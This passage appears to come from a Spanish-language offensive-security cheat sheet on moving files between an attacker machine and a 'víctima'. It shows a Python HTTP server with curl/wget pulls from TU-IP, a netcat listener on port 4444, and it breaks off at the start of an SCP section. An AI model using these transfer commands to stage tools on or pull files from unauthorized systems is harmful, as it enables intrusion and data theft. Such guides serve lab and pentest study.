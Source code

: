 **Servidor (en tu máquina):**

```bash
python3 -m http.server 8000
```

Esto sirve los archivos del directorio actual por `http://TU-IP:8000`

**Cliente (en la máquina remota o víctima):**

```bash
curl http://TU-IP:8000/fichero.txt -o fichero.txt
```

O:

```bash
wget http://TU-IP:8000/fichero.txt
```

---

#### 2. 🔌 Netcat (transferencia binaria simple)

Muy útil cuando no tienes ni `curl` ni `wget`.

##### 📦 Instalación:

```bash
sudo apt install netcat
```

##### ▶️ Uso:

**Desde la máquina que envía el archivo:**

```bash
nc -lvnp 4444 < archivo.txt
```

**Desde la máquina que lo recibe:**

```bash
nc TU-IP 4444 > archivo.txt
```

💡 También puedes usarlo para enviar comandos, scripts, ejecutables, etc.

---

#### 3. 🔐 SCP (Secure Copy)

Usa **SSH** para transferencias **cifradas**.

##### 📦 Instalación:

```bash
sudo apt install openssh-client
```

##### ▶️ Uso:
